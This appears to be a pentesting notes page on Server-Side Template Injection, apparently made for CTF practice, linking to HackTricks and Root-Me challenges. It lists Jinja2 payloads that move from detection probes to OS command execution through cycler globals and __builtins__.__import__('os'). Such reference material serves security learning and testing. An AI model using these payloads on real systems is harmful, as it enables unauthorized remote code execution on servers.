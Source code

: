 # Server-Side Template Injection (SSTI)

[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.
</div><div>

**Example for Jinja2** 🔥 ([article](
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/))

* Basic Test: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
```

If the first payload returns something, then try to use the shorter ones.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>